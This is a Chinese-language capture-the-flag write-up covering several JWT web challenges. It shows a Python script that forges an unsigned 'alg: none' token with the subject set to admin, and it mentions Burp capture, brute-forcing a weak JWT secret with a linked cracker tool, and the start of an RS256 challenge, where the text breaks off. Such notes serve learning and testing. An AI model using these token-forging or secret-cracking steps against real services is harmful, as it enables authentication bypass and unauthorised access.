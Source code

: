 ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1675150997901-fe253f92-3b19-45ef-b659-f02a7f5ebb3d.png#averageHue=%23fdfdfd&clientId=ue6fec3f1-2d6d-4&from=paste&height=559&id=u65d6b5fa&originHeight=1118&originWidth=2348&originalType=binary&ratio=1&rotation=0&showTitle=false&size=156327&status=done&style=none&taskId=uc85271ec-3df7-4a3d-9272-eb6730ee859&title=&width=1174)

- 这里是None发现没有加密，所以变成了 `header + payload + . `，也就是可以直接验证
- 将sub面向对象的user改为admin，我理解这里就是能访问admin的文件夹了
- 重新访问/admin/，Burp抓包拿到flag

### web346

:::info
JWT 支持将算法设定为 “None”。如果“alg” 字段设为“ None”，那么签名会被置空，这样任何 token 都是有效的。**用下面的代码试一下，确实signature是空的。**
:::

```python
import jwt

# payload
token_dict = {
  "iss": "admin",
  "iat": 1632670820,
  "exp": 1632678020,
  "nbf": 1632670820,
  "sub": "admin",
  "jti": "147cc3b129a041cdd38e3f127680d1e4"
}

headers = {
  "alg": "none",
  "typ": "JWT"
}
jwt_token = jwt.encode(token_dict,  		# payload, 有效载体
                       "",  				# 进行加密签名的密钥
                       algorithm="none",  	 # 指明签名算法方式, 默认也是HS256
                       headers=headers 
                       # json web token 数据结构包含两部分, payload(有效载体), headers(标头)
                       )

print(jwt_token)
```

### web 347(弱口令)

[GitHub - brendan-rius/c-jwt-cracker: JWT brute force cracker written in C](https://github.com/brendan-rius/c-jwt-cracker)

- 用这个工具爆破jwt的secret

### web349(RS256)

- 在jwt.io中解密

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1675823672394-5bbc99a3-522c-4d85-b862-c7e1cb2d81ca.png#averageHue=%23fefdfd&clientId=u86d31080-b757-4&from=paste&height=341&id=ubdfed8ea&originHeight=682&originWidth=1873&originalType=binary&ratio=1&rotation=0&showTitle=false&size=119375&status=done&style=none&taskId=u52065c2a-99b2-4808-97c7-92528b81784&title=&width=936.5)

- 发现是RS256，也就是signature是用rsa的私钥进行签名得到的
- 访问源码
